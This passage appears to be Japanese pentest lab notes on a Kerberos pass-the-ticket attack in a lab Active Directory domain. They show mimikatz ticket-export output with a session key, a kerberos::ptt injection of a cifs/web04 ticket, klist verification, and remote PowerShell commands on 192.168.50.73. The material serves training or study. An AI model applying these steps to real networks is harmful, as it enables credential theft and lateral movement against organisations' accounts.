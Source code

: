 ```cmd
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
...
```

新しく生成されたチケットを検証

```powershell
PS C:\Tools> dir *.kirbi
```

チケットをexportする

```cmd
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```

klistで確認する

```cmd
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname